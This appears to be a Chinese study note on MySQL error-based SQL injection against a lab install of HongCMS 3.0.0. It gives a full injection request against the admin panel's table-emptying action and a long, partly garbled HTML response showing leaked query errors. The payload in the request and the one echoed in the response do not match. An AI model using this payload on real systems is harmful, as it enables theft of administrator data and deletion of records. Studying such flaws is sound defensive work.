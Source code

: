 # 0x00 前言
360的笔试和前两天的面试都问道这个问题了，只不过360是sql server，然后后来的面试问的是MySQL，以前感觉自己好像都会了，但是当真正遇到问题才发现不是想想中的样子。。

# 0x01 先来MySQL（这个环境好搭建一点）
环境
- Windows server2008
- IIS7+php5+mysql5.0.22
- Hong cms 3.0.0后台报错注入

# 0x02 注入payload

实际遇到可能要先爆破管理员密码。。。。
参考[Hongcms 3.0.0后台SQL注入漏洞分析](https://www.freebuf.com/vuls/178316.html)和[十种MySQL报错注入](https://blog.csdn.net/whatday/article/details/63683187)  
采用报错注入，因为mysql5.0没有updatexml函数，所以使用floor、group by和count函数的冲突进行报错注入。
```
GET /admin/index.php/database/operate?dbaction=emptytable&tablename=hong_vvc%60where%20vvcid=1%20or%20(select%201%20from%20(select%20count(*),concat((select%20loginnum%20from%20hong_admin),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%20or%20%60 HTTP/1.1
Host: 192.168.72.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.72.131/admin/index.php/database
Connection: keep-alive
Cookie: O0oqZrypyswqadmin=104918af865ae8146284b36ed2c5c907
Upgrade-Insecure-Requests: 1
```
HTTP/1.1 200 OK
Content-Type: text/html
Server: Microsoft-IIS/7.5
X-Powered-By: PHP/5.3.1
X-Powered-By: ASP.NET
Date: Thu, 18 Apr 2019 10:58:10 GMT
Content-Length: 8502

<!DOCTYPE html>
<html>
<head>
<meta http-equiv="content-type" content="text/html; charset=UTF-8">
<meta charset="utf-8">
<title>HongCMS - åå°ç®¡ç</title>
<link rel="stylesheet" type="text/css" href="/public/admin/admin.css">
<link rel="stylesheet" type="text/css" href="/public/js/artDialog/black.css">
<script src="/public/js/jquery-1.8.3.min.js" type="text/javascript"></script>
<script src="/public/js/jquery.cookie.js" type="text/javascript"></script>
<script src="/public/js/artDialog/jquery.artDialog.min.js" type="text/javascript"></script>
<script src="/public/admin/admin.js" type="text/javascript"></script>
<script type="text/javascript">
var this_uri = "/admin/index.php/database/operate?dbaction=emptytable&tablename=hong_vvc%60where%20vvcid=1%20or%20(select%201%20from%20(select%20count(*),concat((select%20substring(username,1,2)%20from%20hong_admin),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%20or%20%60";
</script>
</head>
<body>
<div id="header">
	<div class="logo" ><a href="/admin/"><img src="/public/admin/images/logo.gif" title="åå°é¦é¡µ"></a></div>
	<div class="loading"><div id="ajax-loader" title="Ajaxæ°æ®æ´æ°ä¸­..."></div></div>
	<div id="topbar">
		<div id="topmenu">
			<dl class="first"></dl>
			<dl>
				<dt><a href="/admin/index.php/articles">æç« </a></dt>
				<dd>
					<div>
						<li class="first"><a href="/admin/index.php/articles/add">æ·»å æç« </a></li>
						<li><a href="/admin/index.php/articles">æç« åè¡¨</a></li>
						<li class="last"><a href="/admin/index.php/acategory">æç« ç±»å«</a></li>
					</div>
				</dd>
			</dl>
			<dl>
				<dt><a href="/admin/index.php/products">äº§å</a></dt>
				<dd>
					<div>
						<li class="first"><a href="/admin/index.php/products/add">æ·»å äº§å</a></li>
						<li><a href="/admin/index.php/products">äº§ååè¡¨</a></li>
						<li class="last"><a href="/admin/index.php/pcategory">äº§åç±»å«</a></li>
					</div>
				</dd>
			</dl>
			<dl>
				<dt><a href="/admin/index.php/users">ç¨æ·</a></dt>
				<dd>
					<div>
						<li class="first"><a href="/admin/index.php/users/add">æ·»å ç¨æ·</a></li>
						<li class="last"><a href="/admin/index.php/users">ç¨æ·åè¡¨</a></li>
					</div>
				</dd>
			</dl>
			<dl>
				<dt><a href="/admin/index.php/news">å¶å®</a></dt>
				<dd>
					<div>
						<li class="first"><a href="/admin/index.php/news">ç«ç¹æ°é»</a></li>
						<li class="last"><a href="/admin/index.php/contents">å¸¸æåå®¹</a></li>
					</div>
				</dd>
			</dl>
			<dl>
				<dt><a href="/admin/index.php/settings">ç³»ç»</a></dt>
				<dd>
					<div>
						<li class="first"><a href="/admin/index.php/settings">ç½ç«è®¾ç½®</a></li>
						<li><a href="/admin/index.php/language">è¯­è¨ç®¡ç</a></li>
						<li><a href="/admin/index.php/template">æ¨¡æ¿ç®¡ç</a></li>
						<li><a href="/admin/index.php/database">æ°æ®ç»´æ¤</a></li>
						<li><a href="/admin/index.php/phpinfo">ç¯å¢ä¿¡æ¯</a></li>
						<li class="last"><a href="/admin/index.php/upgrade">ç³»ç»åçº§</a></li>
					</div>
				</dd>
			</dl>
			<dl class="last"></dl>
		</div>


		<div id="topuser">
			<dl class="first"></dl>
			<dl class="info"><!-- å¦ææ²¡æä¿¡æ¯ class=info none -->
				<dt><a href="/admin/"><i></i><span>18</span></a></dt>
				<dd>
					<div>
						<li class="first"><a href="/admin/">é¢çæ ·å¼!!</a></li>
						<li><a href="/admin/">æ8ä¸ªæ°è®¢å</a></li>
						<li class="last"><a href="/admin/">æ10ç¯æç« å¾å®¡</a></li>
					</div>
				</dd>
			</dl>
			<dl class="msg none"><!-- å¦ææ²¡æä¿¡æ¯ class=msg none -->
				<dt><a href="/admin/"><i></i><span>0</span></a></dt>
				<dd>
					<div>
						<div class=right>ææ ç«åç­ä¿¡.</div>
					</div>
				</dd>
			</dl>
			<dl class="admin">
				<dt><a onclick="$.dialog({title:'æä½ç¡®è®¤',lock:true,content:'ç¡®å®éåº HongCMS åå°ç®¡çå?',okValue:'  ç¡®å®  ',ok:function(){window.location='/admin/index.php/index/logout';},cancelValue:'åæ¶',cancel:true});return false;"><i></i></a></dt>
				<dd>
					<div>
						<li class="first"><a href="/admin/index.php/index/logout">ç³»ç»ç®¡çå éåº?</a></li>
						<li><a href="/" target="_blank">ç½ç«é¦é¡µ</a></li>
						<li class="last"><a href="/admin/index.php/users/edit?userid=1">ä¿®æ¹æçèµæ</a></li>
					</div>
				</dd>
			</dl>
			<dl class="last"></dl>
		</div>
		<div></div>
	</div>
</div>

<div><!-- å¤å±æ·»å ä¸ä¸ªDIVè§£å³IE8ä¸margin-topçé®é¢ -->
<table cellpadding="0" cellspacing="0" id="maintable">
<tr>
<td id="container" valign="top">
<div id="sidebar">
	<div class="sidebar-toggler" title="æ¶æ¢èå(Ctrl <)"><i></i></div>
	<ul>
		<li class="start">
		   <a href="/admin/">
		   <i class="i-home"></i> 
		   <span class="title">é¦ é¡µ</span>
		   </a>
		</li>
		<li class="has-sub">
		   <a href="#">
		   <i class="i-articles"></i> 
		   <span class="title">æç« </span>
		   <span class="arrow"></span>
		   </a>
		   <ul class="sub">
			  <li><a href="/admin/index.php/articles/add">æ·»å æç« </a></li>
			  <li><a href="/admin/index.php/articles">æç« åè¡¨</a></li>
			  <li><a href="/admin/index.php/acategory">æç« ç±»å«</a></li>
		   </ul>
		</li>
		<li class="has-sub">
		   <a href="#">
		   <i class="i-pros"></i> 
		   <span class="title">äº§å</span>
		   <span class="arrow"></span>
		   </a>
		   <ul class="sub">
			  <li><a href="/admin/index.php/products/add">æ·»å äº§å</a></li>
			  <li><a href="/admin/index.php/products">äº§ååè¡¨</a></li>
			  <li><a href="/admin/index.php/pcategory">äº§åç±»å«</a></li>
		   </ul>
		</li>
		<li class="has-sub">
		   <a href="#">
		   <i class="i-users"></i> 
		   <span class="title">ç¨æ·</span>
		   <span class="arrow"></span>
		   </a>
		   <ul class="sub">
			  <li><a href="/admin/index.php/users/add">æ·»å ç¨æ·</a></li>
			  <li><a href="/admin/index.php/users">ç¨æ·åè¡¨</a></li>
		   </ul>
		</li>
		<li class="has-sub">
		   <a href="#">
		   <i class="i-others"></i> 
		   <span class="title">å¶å®</span>
		   <span class="arrow"></span>
		   </a>
		   <ul class="sub">
			  <li><a href="/admin/index.php/news">ç«ç¹æ°é»</a></li>
			  <li><a href="/admin/index.php/contents">å¸¸æåå®¹</a></li>
		   </ul>
		</li>
		<li class="has-sub">
		   <a href="#">
		   <i class="i-settings"></i> 
		   <span class="title">ç³»ç»</span>
		   <span class="arrow"></span>
		   </a>
		   <ul class="sub">
			  <li><a href="/admin/index.php/settings">ç½ç«è®¾ç½®</a></li>
			  <li><a href="/admin/index.php/language">è¯­è¨ç®¡ç</a></li>
			  <li><a href="/admin/index.php/template">æ¨¡æ¿ç®¡ç</a></li>
			  <li><a href="/admin/index.php/database">æ°æ®ç»´æ¤</a></li>
			  <li><a href="/admin/index.php/phpinfo">ç¯å¢ä¿¡æ¯</a></li>
			  <li><a href="/admin/index.php/upgrade">ç³»ç»åçº§</a></li>
		   </ul>
		</li>
		<li class="end"></li>
	</ul>
</div>
</td>

<td valign="top" class="maintd">
  <div class="maindiv">
	 <div id="main"><div class="itemtitle"><h3>æ°æ®åºç»´æ¤</h3></div><center><br /><br /><br /><br /><b>Database Query Error Info</b><br /><textarea rows="22" style="width:480px;font-size:12px;">Database Query Error Info:

Invalid SQL: DELETE FROM `hong_vvc`where vvcid=1 or (select 1 from (select count(*),concat((select substring(username,1,2) from hong_admin),floor(rand(0)*2))x from information_schema.tables group by x)a) or ``

Error: Unknown column '' in 'where clause'
Error No: 1054
File: /admin/index.php/database/operate
</textarea></center><div class=sysinfo>2019 &copy; HongCMS(3.0.0) <a href="http://www.weentech.com" target="_blank">weentech.com</a> Done in 0.012 second(s), 2 queries, GMT+8 2019-04-18 18:58:10</div>
		</div>
  </div>
</td>
</tr>
</table>
</div>

<script type="text/javascript">
	jQuery(document).ready(function() {
		//è°æ´é«åº¦
		$("#container").height($(window).height()-40); 
		$(window).resize(function() {
			$("#container").height($(window).height()-40);
		});

		App.init();//å·¦ä¾§èååå§å

		var a101 = $("#topbar"); //é¡¶é¨ä¸æ¥èå
		a101.find("dl").Jdropdown({delay: 0}, function(a){});

		//å¨écheckbox
		$("#checkAll").click(function(e){
			$("input[name='" + $(this).attr("for") + "']").attr("checked", this.checked);
		});
	});
</script>

</body>
</html>